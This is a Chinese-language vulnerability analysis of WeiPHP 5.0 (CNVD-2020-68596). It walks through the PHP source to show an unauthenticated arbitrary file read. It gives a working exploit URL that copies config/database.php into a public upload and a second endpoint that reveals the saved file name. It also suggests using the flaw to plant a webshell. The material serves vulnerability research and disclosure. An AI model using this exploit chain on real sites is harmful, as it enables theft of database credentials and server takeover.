WeiPHP5.0 download_imgage 前台文件任意读取 CNVD-2020-68596¶
漏洞描述¶
Weiphp5.0 存在前台文件任意读取漏洞，可以读取数据库配置等敏感文件
漏洞影响¶
Weiphp <= 5.0
网络测绘¶
app="WeiPHP"
环境搭建¶
参考官方手册创建网站即可

漏洞函数文件:application\material\controller\Material.php
漏洞函数:_download_imgage

public function _download_imgage($media_id, $picUrl = '', $dd = null)
{
$savePath = SITE_PATH . '/public/uploads/picture/' . time_format(NOW_TIME, 'Y-m-d');
mkdirs($savePath);
$cover_id = 0;
if (empty($picUrl)) {
// 获取图片URL
$url = 'https://api.weixin.qq.com/cgi-bin/material/get_material?access_token=' . get_access_token();
$param['media_id'] = $media_id;
// dump($url);
$picContent = post_data($url, $param, 'json', false);
$picjson = json_decode($picContent, true);
// dump($picjson);die;
if (isset($picjson['errcode']) && $picjson['errcode'] != 0) {
$cover_id = do_down_image($media_id, $dd['thumb_url']);
if (!$cover_id) {
return 0;
exit();
}
}
$picName = NOW_TIME . uniqid() . '.jpg';
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $picContent);
} else {
$content = wp_file_get_contents($picUrl);
// 获取图片扩展名
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
$picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
if (!$res) {
$cover_id = do_down_image($media_id);
if (!$cover_id) {
return 0;
exit();
}
}
}
if ($res) {
$file = array(
'name' => $picName,
'type' => 'application/octet-stream',
'tmp_name' => $picPath,
'size' => $res,
'error' => 0
);
$File = D('home/Picture');
$cover_id = $File->addFile($file);
}
return $cover_id;
}
首先注意到函数的标识为public，也就是这个函数是公共调用的，并且变量picUrl为可控变量
根据代码从上向下分析
$savePath = SITE_PATH . '/public/uploads/picture/' . time_format(NOW_TIME, 'Y-m-d');
else {
$content = wp_file_get_contents($picUrl);
// 获取图片扩展名
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
$picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
if (!$res) {
$cover_id = do_down_image($media_id);
if (!$cover_id) {
return 0;
exit();
}
}
分析传入变量 picUrl 的 wp_file_get_contents方法
$content = wp_file_get_contents($picUrl);
函数文件位置 application\common.php

可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
$picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
这里创建了有关当前时间的图片文件，并写入文件夹/public/uploads/picture/ 下
我们先尝试控制变量 $picUrl 来写入数据库配置文件到图片中
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php

查看目录/public/uploads/picture/，并用记事本打开写入的jpg文件

得到数据库配置文件的信息，既然这个变量可控，我们也可以通过这个方法下载木马文件，再通过解析漏洞或者文件包含等其他漏洞来getshell

在当前条件下并不知道文件名是什么，所以回到代码中继续寻找可以获取文件名的办法

if ($res) {
$file = array(
'name' => $picName,
'type' => 'application/octet-stream',
'tmp_name' => $picPath,
'size' => $res,
'error' => 0
);
$File = D('home/Picture');
$cover_id = $File->addFile($file);
}
向下跟进 addFile 函数
函数位置:application\home\model\Picture.php

function addFile($file)
{
$data['md5'] = md5_file($file['tmp_name']);
$id = $this->where('md5', $data['md5'])->value('id');
if ($id > 0) {
return $id;
}
$info = pathinfo($file['tmp_name']);
$data['path'] = str_replace(SITE_PATH . '/public', '', $file['tmp_name']);
$data['sha1'] = hash_file('sha1', $file['tmp_name']);
$data['create_time'] = NOW_TIME;
$data['status'] = 1;
$data['wpid'] = get_wpid();
$id = $this->insertGetId($data);
return $id;
}
可以看到这部分代码写入了 Picture 表中
$id = $this->insertGetId($data);
我们查看一下数据库的这个数据表，可以发现之前所上传的数据全部缓存在这个表里了

我们现在则需要找到不需要登录的地方来获得这些数据，所以可以全局去查找调用了这个 Picture 表的地方

找到一处可以利用的地方
function user_pics()
{
$map['wpid'] = get_wpid();
$picList = M('Picture')->where(wp_where($map))
->order('id desc')
->select();
$this->assign('picList', $picList);
exit($this->fetch());
}
跟进 get_wpid 函数
function get_wpid($wpid = '')
{
if (defined('WPID')) {
return WPID;
} else {
return 0;
}
}
查看 WPID 的定义，文件位置在config\weiphp_define.php

定义值默认为 1，所以这里调用则可以获得数据库中Pictrue表的内容，间接的知道了文件内容以及文件名
访问地址: http://webphp/public/index.php/home/file/user_pids

可以看到文件名，根据url地址访问选择下载即可